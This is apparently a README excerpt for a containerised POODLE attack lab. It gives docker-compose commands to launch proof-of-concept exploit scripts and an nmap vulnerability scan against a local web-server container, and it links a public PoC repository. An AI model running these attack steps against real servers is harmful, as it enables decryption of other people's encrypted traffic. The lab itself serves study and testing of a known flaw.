 # Start python instance
docker-compose run --rm poodle
docker-compose run --rm poodle bash

# Launch the attack
python3 poodle-poc.py
python3 poodle-fast.py


# Or 
docker-compose run poodle2 sh
apk add gcc musl-dev
cd /poodle
pip install -r requirements.txt

# Launch the attack
python3 poodle-poc.py


# Use poodle-exploit.py
python3 poodle-exploit.py 127.0.0.1 4443 web-server 443 --start-block 46 --stop-block 50

https://github.com/mpgn/poodle-PoC


# Scan poodle vulnerability from the attacker container
docker-compose run nmap -sV -p 443 --script=ssl-poodle web-server
